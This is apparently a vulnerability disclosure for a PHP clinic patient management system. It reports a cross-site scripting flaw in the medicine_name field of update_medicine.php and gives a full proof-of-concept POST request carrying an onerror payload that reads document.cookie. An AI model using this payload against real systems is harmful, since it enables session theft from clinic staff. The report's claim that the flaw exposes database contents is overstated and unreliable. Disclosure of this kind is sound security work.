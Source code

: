 ## Clinic's Patient Management System has XSS vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
## Vulnerability file
/pms/update_medicine.php
## describe
An unrestricted XSS attack exists in the inventory management system. The parameters that can be controlled are as follows: medicine_name, without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.
## code analysis
The medicine_name parameter in update_medicine.php is controlled and can directly execute the payload in xss.

<img width="1147" alt="image" src="https://github.com/user-attachments/assets/020adcb6-1ad6-4329-9f21-a2f292a2013d">
<img width="1253" alt="image" src="https://github.com/user-attachments/assets/d7af0874-a6d6-4cfd-a77d-0bb4b35e87f2">


xss via parameter medicine_name
POC
```
POST /pms/update_medicine.php?id=257 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://localhost
Connection: close
Referer: http://localhost/pms/update_medicine.php?id=257
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

hidden_id=257&medicine_name=23<img src=1 onerror=alert(document.cookie)>&save_medicine=
```
<img width="1214" alt="image" src="https://github.com/user-attachments/assets/34fc2b17-9097-46de-97e1-9ba3ab510d86">

<img width="1329" alt="image" src="https://github.com/user-attachments/assets/726c92bd-5810-4001-99a3-31793f447edf">








